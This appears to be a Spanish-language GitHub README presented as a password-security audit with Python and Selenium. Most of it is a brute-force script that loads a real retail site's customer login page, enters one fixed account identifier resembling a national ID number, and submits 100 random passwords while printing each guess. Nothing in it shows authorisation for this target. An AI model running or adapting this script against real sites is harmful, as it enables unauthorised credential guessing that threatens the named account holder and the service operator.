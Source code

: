 # Automatización de credenciales con python y selenium
Auditar la implementación de los sistemas de creación, actualización, acceso, transmisión y recuperación de contraseñas

## Selenium 
Selenium es un entorno de pruebas que se utiliza para automatizar servicios de sowftware.

## Instalación
Usa el pip en la consola para instalar el paquete de selenium.

```bash
pip install selenium
```
## Ejemplo de uso de python con selenium (ataque fuerza bruta)

```python
import string
import time
import random

#Carga el módulo webdriver para implementar las clases y métodos para el soporte de los diferentes navegadores
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.action_chains import ActionChains
driver = webdriver.Chrome()
driver.get('https://www.wei.cl/cliente/ingreso')
time.sleep(5)
letters = string.ascii_letters + string.digits
for x in range(100):
    usr = driver.find_element_by_id("client-username")
    usr.clear()
    usr.send_keys("20189579-0")
    psw = driver.find_element_by_id("client-password")
    str = ''.join(random.choice(letters) for i in range(random.randrange(6,10)))
    
    #Se introduce el valor que contiene la variable password
    psw.send_keys(str)
    print(str)
    
    #Está variable permite efectuar un evento click a la página web mediante el xpath
    clk = driver.find_element_by_xpath('//*[@id="form-ingreso-window"]/button').submit()
    time.sleep(1)
    psw.clear()
```
